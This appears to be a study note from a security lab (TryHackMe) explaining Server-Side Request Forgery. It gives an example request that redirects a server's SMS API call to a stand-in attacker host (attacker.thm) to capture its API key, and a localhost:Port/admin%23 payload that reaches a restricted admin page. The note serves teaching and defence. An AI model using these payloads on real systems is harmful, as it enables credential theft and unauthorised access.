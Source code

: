# 10. Server-Side Request Forgery (SSRF)

## Server-Side Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png" alt=""><figcaption></figcaption></figure>

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`&#x20;

You could then just capture the contents of the request using Netcat:

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:\


* Enumerate internal networks, including IP addresses and ports.
* Abuse trust relationships between servers and gain access to otherwise restricted services.
* Interact with some non-HTTP services to get remote code execution (RCE).

example:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

in the website the admin page was only accessible from localhost. as you can see we are using ssrf and putting the website's url for that page. the vulnerable server is parsing the value of the server parameter in the SSRF request and using it in a subsequent request to the specified server. By changing the value of the server parameter to localhost:Port/admin%23, the subsequent request is made to the localhost on the specified port, and the admin page is accessed.

The %23 at the end of the URL is URL-encoded #, which is a comment character in URLs. This effectively comments out the \&id=75482342 parameter, which may not be necessary for accessing the admin page.

and we can't remove the \&id=75482342 part of the url becuase that makes our request invalid in the first place.
